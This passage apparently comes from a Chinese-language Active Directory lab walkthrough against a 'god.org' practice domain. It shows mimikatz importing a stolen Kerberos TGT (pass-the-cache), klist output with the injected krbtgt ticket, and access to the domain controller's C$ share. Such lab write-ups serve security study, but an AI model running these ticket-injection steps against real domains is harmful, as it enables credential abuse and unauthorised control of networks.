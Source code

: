    mimikatz # kerberos::list
    
    # 导入票据
    mimikatz # kerberos::ptc C:\Users\a\Desktop\TGT_a@god.org.ccache
    
    Principal : (01) : a ; @ GOD.ORG
    
    Data 0
    	   Start/End/MaxRenew: 2024/11/21 21:45:33 ; 2024/11/22 7:45:33 ; 2024/11/28 21:45:33
    	   Service Name (01) : krbtgt ; GOD.ORG ; @ GOD.ORG
    	   Target Name  (01) : krbtgt ; GOD.ORG ; @ GOD.ORG
    	   Client Name  (01) : a ; @ GOD.ORG
    	   Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ; 
    	   Session Key       : 0x00000017 - rc4_hmac_nt      
    	     81c2631584561a17541d1254f97a5d1b
    	   Ticket            : 0x00000000 - null              ; kvno = 2	[...]
    	   * Injecting ticket : OK
    ```
    
7. 查看当前票据
    
    ```python
    C:\Users\a>klist
    
    当前登录 ID 是 0:0x1ebb42
    
    缓存的票证: (1)
    
    #0>     客户端: a @ GOD.ORG
            服务器: krbtgt/GOD.ORG @ GOD.ORG
            Kerberos 票证加密类型: RSADSI RC4-HMAC(NT)
            票证标志 0x50a00000 -> forwardable proxiable renewable pre_authent
            开始时间: 11/21/2024 21:45:33 (本地)
            结束时间:   11/22/2024 7:45:33 (本地)
            续订时间: 11/28/2024 21:45:33 (本地)
            会话密钥类型: RSADSI RC4-HMAC(NT)
    ```
    
8. 再通过IPC连接域控
    
    ```python
    C:\Users\a\Desktop>dir \\owa.god.org\c$
     驱动器 \\owa.god.org\c$ 中的卷没有标签。
     卷的序列号是 1E4D-1970
    
     \\owa.god.org\c$ 的目录
    
    2019/10/13  13:06    <DIR>          ExchangeSetupLogs
    2019/08/24  21:55    <DIR>          inetpub
    2009/07/14  11:20    <DIR>          PerfLogs
    2019/08/24  21:34    <DIR>          Program Files
    2019/08/24  21:34    <DIR>          Program Files (x86)
    2019/10/13  18:01    <DIR>          redis
    2024/11/20  19:11    <DIR>          Users
    2019/10/13  16:02    <DIR>          Windows
                   0 个文件              0 字节
                   8 个目录 13,941,129,216 可用字节
    ```
    